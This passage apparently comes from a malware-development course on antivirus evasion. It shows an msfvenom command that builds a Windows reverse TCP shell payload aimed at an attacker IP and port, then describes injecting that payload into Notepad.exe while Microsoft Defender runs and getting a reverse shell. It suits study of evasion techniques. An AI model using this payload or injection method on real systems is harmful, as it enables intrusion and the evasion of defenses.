 ```c
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.16.111 LPORT=4444 -f raw -o reverse.bin
```

`AV.exe`'s IAT is shown below.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-15.png)

Next, `AV.exe` injects into `Notepad.exe` with Microsoft Defender enabled.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-16.png)

A successful reverse shell is established to the attacking machine and a sample command is executed.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-17.png)

The `Notepad.exe` process has PID 20288, which matches the PID in the previous picture.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/av-bypass-18.png)